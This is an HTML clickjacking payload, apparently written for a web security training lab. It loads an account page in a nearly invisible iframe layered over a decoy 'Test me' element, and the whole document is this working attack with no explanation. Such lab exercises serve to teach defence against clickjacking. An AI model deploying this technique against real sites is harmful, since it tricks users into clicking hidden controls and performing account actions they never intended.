 <style>
    iframe {
        position:relative;
        width: 1580px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 536px;
        left: 265;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a4c004003067edbc0c71e1a003600c9.web-security-academy.net/my-account"></iframe